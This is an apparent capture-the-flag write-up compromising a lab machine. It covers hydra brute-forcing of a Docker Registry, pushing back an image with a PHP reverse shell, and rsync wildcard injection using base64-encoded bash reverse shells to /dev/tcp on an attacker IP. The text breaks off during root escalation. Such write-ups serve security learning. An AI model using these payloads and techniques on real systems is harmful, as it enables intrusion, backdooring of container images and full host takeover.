Table of Contents
1. Introduction
This writeup details the compromise of a target system exposing a web application backed by a Docker Registry service. The attack chain began with the enumeration of publicly accessible endpoints, leading to the discovery of an authenticated Docker Registry interface protected by weak credentials.
Through credential brute-forcing and service enumeration, access to the registry was obtained, allowing the extraction and local analysis of container images. By modifying the container configuration to re-enable dangerous PHP functions, remote code execution (RCE) was achieved within the application environment.
Post-exploitation activities involved leveraging misconfigurations in automated backup processes using rsync, which were vulnerable to wildcard injection attacks. This weakness allowed escalation from a low-privileged user to a more privileged service account, and ultimately to full root access.
The compromise demonstrates the risks associated with weak authentication mechanisms, insecure container configurations, and improper handling of file operations in privileged automated tasks.
2. Internal Network Compromise Walkthrough
This section will detail a full walkthrough of the machine exploitation process, broken down step-by-step. We will begin with the enumeration phase, which will scan for open ports, available services, and potential vulnerabilities in the system, including reviewing the web application if applicable. Next, we will delve deeper into active services and their configurations, and then move on to exploiting any identified vulnerabilities. Finally, we will cover privilege escalation, describing the techniques and tools used to gain access to the system as the highest-level user, thereby achieving full control of the machine.
2.1 Enumeration
Nmap
We proceed to list open ports with the nmap tool.
$ sudo nmap -v -n -sCV -Pn -p22,80,5000 10.10.20.7
Nmap scan report for 10.10.20.7
Host is up (0.00019s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 10.0p2 Debian 7+deb13u2 (protocol 2.0)
80/tcp open http Apache httpd 2.4.66 ((Debian))
| http-methods:
|_ Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.66 (Debian)
|_http-title: Default site
5000/tcp open http Docker Registry (API: 2.0)
|_http-title: Site doesn't have a title.
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
MAC Address: 08:00:27:6F:9C:3C (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
NSE: Script Post-scanning.
Initiating NSE at 18:21
Completed NSE at 18:21, 0.00s elapsed
Initiating NSE at 18:21
Completed NSE at 18:21, 0.00s elapsed
Initiating NSE at 18:21
Completed NSE at 18:21, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.70 seconds
Raw packets sent: 4 (160B) | Rcvd: 4 (160B)
From the previous scan we have:
| Port | Service | Version |
|---|---|---|
| 22 | SSH | OpenSSH 10.0p2 Debian 7+deb13u2 |
| 80 | http | Apache httpd 2.4.66 |
| 5000 | http | Docker Registry (API: 2.0) |
HTTP
We go to http://10.10.20.7/ using a web browser:

A few seconds later, we were redirected to: http://latestwasalie.hmv/
We added this to our hosts file:
$ echo '10.10.20.7 latestwasalie.hm ' | sudo tee -a /etc/hosts
Upon returning to the web application, we identified a platform exposing a service functionality.

By inspecting the source code, a potential username was discovered: adm

Fuzzing
We then proceeded to perform directory fuzzing against the target endpoint:
$ ffuf -u "http://10.10.20.7:5000/FUZZ" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

This enumeration revealed the /v2/ endpoint.
Navigating to http://10.10.20.7:5000/v2/ prompted an HTTP Basic Authentication.

We attempted to brute-force the credentials using the previously identified username:
$ hydra -l adm -P /usr/share/wordlists/rockyou.txt 10.10.20.7 http-get /v2/ -s 5000 -t 64 -I

This attack was successful, yielding the following valid credentials: adm:******
To interact with the service via command line tools such as curl, the credentials were encoded in Base64:
$ echo -n "adm:******" | base64

From the initial nmap scan, it was observed that port 5000 was running a Docker Registry service. This was confirmed with:
Response header:
$ curl -S "http://10.10.20.7:5000/v2/" -H 'Authorization: Basic **********' -I

After researching the Docker Registry service and its attack surface, we proceeded with further enumeration and exploitation. For further information you can explore these links below:
https://hackerone.com/reports/347296
https://notsosecure.com/anatomy-of-a-hack-docker-registry
https://hacktricks.wiki/en/network-services-pentesting/5000-pentesting-docker-registry.html
We confirmed the presence of a repository hosted on the registry:
$ curl -S "http://10.10.20.7:5000/v2/_catalog" -H 'Authorization: Basic ***********'

And enumerated its available tags:
$ curl -S "http://10.10.20.7:5000/v2/latestwasalie-web/tags/list#" -H 'Authorization: Basic *********' | jq

Next, we pulled the image locally to analyze and interact with it:
First, authentication to the registry was required:
$ docker login 10.10.20.7:5000

Then, we pulled the image:
$ docker image pull 10.10.20.7:5000/latestwasalie-web


We verified that the image was successfully downloaded:
$ docker image ls

The container was then instantiated locally:
$ docker container run -d --name latestwasalie-web -p 8080:80 10.10.20.7:5000/latestwasalie-web

After confirming it was running, we obtained a root shell inside the container:
$ docker container ls
$ docker container exec -u 0 -it latestwasalie-web /bin/bash

At this stage, we were able to inspect and modify the filesystem locally before pushing changes back to the remote registry.
Initially, attempts to achieve Remote Code Execution (RCE) via PHP were unsuccessful, as dangerous functions such as system, exec, and passthru were disabled.
To identify where these restrictions were defined, we searched for PHP configuration files:
$ grep -Rin "disable_functions" /usr/ 2>/dev/null
$ cat zz-hardening.ini


This led to the discovery of the zz-hardening.ini file, which enforced the restriction of dangerous PHP functions.
We modified this file to remove the restrictions:
$ sed -i 's/^disable_functions=.*/disable_functions=/' zz-hardening.ini
$ cat zz-hardening.ini

With these restrictions removed, we were able to deploy a PHP web shell.
We navigated to /var/www/default and uploaded a reverse shell (php-reverse-shell from pentestmonkey in this case). After configuring it with our IP and port, we hosted it locally and downloaded it into the container:
$ curl 10.10.20.4/shell.php -O

To persist our changes, we committed the modified container:
$ docker container ls

$ docker container commit e1db57092586

We verified the new image:
$ docker image ls

Then, we tagged the image to match the remote registry repository:
$ docker tag bc1f18c347f7 10.10.20.7:5000/latestwasalie-web

And pushed it back to the registry:
$ docker push 10.10.20.7:5000/latestwasalie-web:latest

At this point, whenever the remote service pulls or restarts the container, it uses our modified image.
Although not fully confirmed, it appears that the target environment periodically refreshes or redeploys the container automatically, which applies our modifications.
We then set up a listener on our attacking machine and triggered the reverse shell:
$ nc -nvlp 80

As expected, a connection was received. However, the container appeared to restart periodically, causing the shell to terminate intermittently. This required fast interaction during exploitation.

Since the local and remote containers are identical, we leveraged the local instance for further enumeration.
Back to the local container and identified a suspicious directory: /data.

Inside it, we found an /exports directory, which was initially empty in the local container.

However, on the remote instance, this directory contained files along with a script utilizing rsync.


$ cat .rsync_cmd
# Comando rsync ejecutado el sáb 18 abr 2026 01:55:01 CEST
rsync -e 'ssh -i /home/backupusr/.ssh/id_ed25519' -av *.txt localhost:/home/backupusr/backup/
# Usuario: backupusr
# PID: 30468
# Directorio actual: /srv/platform/appdata/exports
# Directorio destino: localhost:/home/backupusr/backup
Further analysis revealed that this script was executed by a user belonging to group 1000, and it used a wildcard (*) in an insecure manner. This misconfiguration made it vulnerable to wildcard injection attacks.
By crafting a malicious .txt file containing a reverse shell payload, we were able to exploit this behavior.
$ echo -n "bash -c ' bash -i >& /dev/tcp/10.10.20.4/443 0>&1' " | base64
YmFzaCAtYyAnIGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMjAuNC80NDMgMD4mMScg

back to the server create a rev.txt using:
$ echo 'echo YmFzaCAtYyAnIGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMjAuNC80NDMgMD4mMScg|base64 -d |bash' > rev.txt

Listen on port 443:

Finally:
$ touch -- "-e sh rev.txt"

Once the script executed, it processed our malicious file, resulting in code execution and granting us a shell as the user:

2.3 Privilege Escalation
Once an initial shell was obtained, we proceeded to enumerate the system further. Navigating to the /opt directory, we identified a suspicious .txt file with overly permissive write permissions (world-writable) and owned by root.

This strongly suggested that the file might be used by a privileged process, potentially via a scheduled task such as a cron job or a process.
To validate this hypothesis and monitor processes in real time, we transferred and executed pspy on the target system:
$ curl 10.10.20.4/pspy64 -O
$ chmod +x pspy64
$ ./pspy64

Through process monitoring, we observed that root was executing a command similar to the one previously identified for the backupusr user, involving rsync. In this case, specific files such as note.txt were being processed.
This indicated that the same wildcard injection vulnerability could be exploited again, but this time in the context of a root-level process.
To achieve privilege escalation, we crafted a reverse shell payload encoded in Base64:
$ echo -n "bash -c ' bash -i >& /dev/tcp/10.10.20.4/80 0>&1' " | base64
YmFzaCAtYyAnIGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMjAuNC84MCAwPiYxJyAg

We then set up a listener on our attacking machine to receive the incoming connection.
Next, we modified the note.txt file to include a command that decodes and executes the payload:
$ echo 'echo YmFzaCAtYyAnIGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMjAuNC84MCAwPiYxJyAg|base64 -d |bash' > note.txt
